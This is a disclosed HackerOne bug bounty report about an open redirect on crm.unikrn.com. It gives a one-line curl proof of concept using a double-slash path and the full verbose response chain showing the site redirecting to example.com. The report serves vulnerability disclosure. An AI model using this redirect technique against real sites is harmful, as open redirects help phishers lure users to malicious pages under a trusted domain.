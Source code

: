 # [crm.unikrn.com] Open Redirect

## Report Details
- **Report ID**: 297803
- **URL**: https://hackerone.com/reports/297803
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-12-14T09:10:37.726Z
- **Disclosed**: 2020-04-05T04:32:17.448Z

## Reporter
- **Username**: root0x0
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: unikrn

## Vulnerability Information
Hi 
   there is an open redirect vulnerable in crm.unikrn.com

POC

```curl http://crm.unikrn.com//example.com/ -L -v```

Response

```
< HTTP/1.1 302 Moved Temporarily
< Date: Thu, 14 Dec 2017 09:06:08 GMT
< Transfer-Encoding: chunked
< Connection: keep-alive
< Cache-Control: private, max-age=0, no-store, no-cache, must-revalidate, post-check=0, pre-check=0
< Expires: Thu, 01 Jan 1970 00:00:01 GMT
< Location: https://crm.unikrn.com//example.com/
< Server: cloudflare-nginx
< CF-RAY: 3cd0016601fb853e-HKG
< 
* Ignoring the response-body
* Connection #0 to host crm.unikrn.com left intact
* Issue another request to this URL: 'https://crm.unikrn.com//example.com/'
*   Trying 104.20.9.41...
* TCP_NODELAY set
* Connected to crm.unikrn.com (104.20.9.41) port 443 (#1)
* TLS 1.2 connection using TLS_ECDHE_RSA_WITH_AES_128_GCM_SHA256
* Server certificate: *.unikrn.com
* Server certificate: RapidSSL SHA256 CA - G2
* Server certificate: GeoTrust Primary Certification Authority - G3
> GET //example.com/ HTTP/1.1
> Host: crm.unikrn.com
> User-Agent: curl/7.54.0
> Accept: */*
> 
< HTTP/1.1 301 Moved Permanently
< Date: Thu, 14 Dec 2017 09:06:13 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< Set-Cookie: __cfduid=d42e68e619766e93f4ba615c19abf9eef1513242372; expires=Fri, 14-Dec-18 09:06:12 GMT; path=/; domain=.unikrn.com; HttpOnly
< X-Powered-By: PHP/7.0.24
< Set-Cookie: 839f76f7dca1d4c71482f5436e1aba22=3a92cdc4ad916ccb96391468d2ad7eda; path=/; HttpOnly
< Cache-Control: no-cache
< Location: //example.com
< Server: cloudflare-nginx
< CF-RAY: 3cd001795f3884a2-HKG
< 
* Ignoring the response-body
* Connection #1 to host crm.unikrn.com left intact
* Issue another request to this URL: 'https://example.com'
* Rebuilt URL to: https://example.com/
*   Trying 93.184.216.34...
* TCP_NODELAY set
* Connected to example.com (93.184.216.34) port 443 (#2)
* TLS 1.2 connection using TLS_ECDHE_RSA_WITH_AES_128_GCM_SHA256
* Server certificate: www.example.org
* Server certificate: DigiCert SHA2 High Assurance Server CA
* Server certificate: DigiCert High Assurance EV Root CA
> GET / HTTP/1.1
> Host: example.com
> User-Agent: curl/7.54.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Accept-Ranges: bytes
< Cache-Control: max-age=604800
< Content-Type: text/html
< Date: Thu, 14 Dec 2017 09:06:13 GMT
< Etag: "359670651"
< Expires: Thu, 21 Dec 2017 09:06:13 GMT
< Last-Modified: Fri, 09 Aug 2013 23:54:35 GMT
< Server: ECS (rhv/818F)
< Vary: Accept-Encoding
< X-Cache: HIT
< Content-Length: 1270
```

## Impact

open Redirect vulnerable

## Attachments
No attachments
